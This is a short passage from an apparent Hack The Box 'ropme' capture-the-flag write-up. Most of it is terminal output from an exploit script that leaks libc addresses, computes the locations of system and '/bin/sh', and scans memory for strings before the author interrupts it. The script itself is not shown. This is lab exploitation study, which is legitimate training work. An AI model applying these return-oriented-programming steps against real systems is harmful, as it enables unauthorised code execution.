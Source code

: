 Basically, we look downwards for strings. If I won't find "bin/sh" after a while, I will look upwards.

```
shaked@shaked-ubuntu:/media/psf/Home/Desktop/programming2/challenges/hack_the_box/ropme$ python exploit.py
connecting to  ('docker.hackthebox.eu', 35034)
ROP me outside, how 'about dah?

connected. sending data
Virtual address of puts is: 0x7fd8c7f01690
Base of libc: 0x7fd8c7e92000
Address of system:  0x7fd8c7ed7390
Address of binsh:  0x7fd8c801ed57
string @ 0x18cd57 	%s%s%s%s%s%s%s%s

ROP me outside, how 'about dah?

string @ 0x18cd47 	TO FIX:
ROP me outside, how 'about dah?

string @ 0x18cd37 	GVERB
ROP me outside, how 'about dah?

string @ 0x18cd27 	anonicalize.c
ROP me outside, how 'about dah?

string @ 0x18cd17 	/bin/sh
ROP me outside, how 'about dah?

string @ 0x18cd07 	b/strtod_l.c
ROP me outside, how 'about dah?

string @ 0x18ccf7 	cy != 0
ROP me outside, how 'about dah?

string @ 0x18cce7 	size == densize
ROP me outside, how 'about dah?

string @ 0x18ccd7 	d
ROP me outside, how 'about dah?

string @ 0x18ccc7 	ize == 1 && n < d
ROP me outside, how 'about dah?

string @ 0x18ccb7 	_digits > 0
ROP me outside, how 'about dah?

string @ 0x18cca7 	t == 0
ROP me outside, how 'about dah?

^Cstring @ 0x18cc97 	Traceback (most recent call last):
  File "exploit.py", line 101, in <module>
    remote(payload)
  File "exploit.py", line 72, in remote
    print "string @ " + hex(offset), "\t", conn.recv(1024)
KeyboardInterrupt
```
